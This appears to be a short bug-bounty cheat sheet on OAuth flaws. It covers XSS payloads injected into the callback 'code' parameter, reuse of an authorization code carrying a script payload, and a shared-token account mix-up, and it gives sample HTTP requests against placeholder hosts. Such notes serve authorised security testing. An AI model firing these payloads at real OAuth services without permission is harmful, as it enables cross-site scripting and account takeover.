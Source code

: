 {% embed url="https://hackerone.com/reports/55140" %}

### XSS in the `code=` parameter

> Try To Insert XSS Payloads e.g. ,%2520alert(123))%253B// In The Authorization Code Parameter If Value Of Code Parameter Reflected

```http
GET /oauth/Callback?code=,%2520alert(123))%253B// HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
```

{% embed url="https://hackerone.com/reports/56760" %}

### Reuse The Authorization Code With XSS Payloads

> If The Authorization Code Is Used More Than Once Try To Reuse The Authorization Code With XSS Payloads e.g. Codealert('XSS')

```http
POST /oauth/Callback HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Referer: https://previous.com/path
Origin: https://www.company.com
Content-Length: Number
client_id=ID&client_secret=SECRET&type=Authorization&code=
Auth_Code<script>alert('XSS')</script>&redirect_uri=URL
```

{% embed url="https://owasp.org/www-pdf-archive/20151215-Top_X_OAuth_2_Hacks-asanso.pdf" %}

{% embed url="http://blog.intothesymmetry.com/2014/02/oauth-2-attacks-and-bug-bounties.html" %}

### Use The OAuth Token With Logged In User In OAuth Provider

> \*\*\* If App Ask You Log In With OAuth Provider By Generating OAuth Token , Try To Use The OAuth Token With Logged In User In OAuth Provider

```http
1 - I am logged in with app.com as Account One
2 - I open appservice.com
3 - I get https://api.app.com/oauth/?oauth_token=*****
4 - I did not move forward and shared this link with someone who
is logged in with app.com as Account Two
5 - Account Two grants the permission to the third Party App appservice.com
6 - Account One also grants the permission to the third Party App
appservice.com By Using The Same OAuth Token
7 - I Get Dashboard Of appservice.com of Account Two Not Account One
```
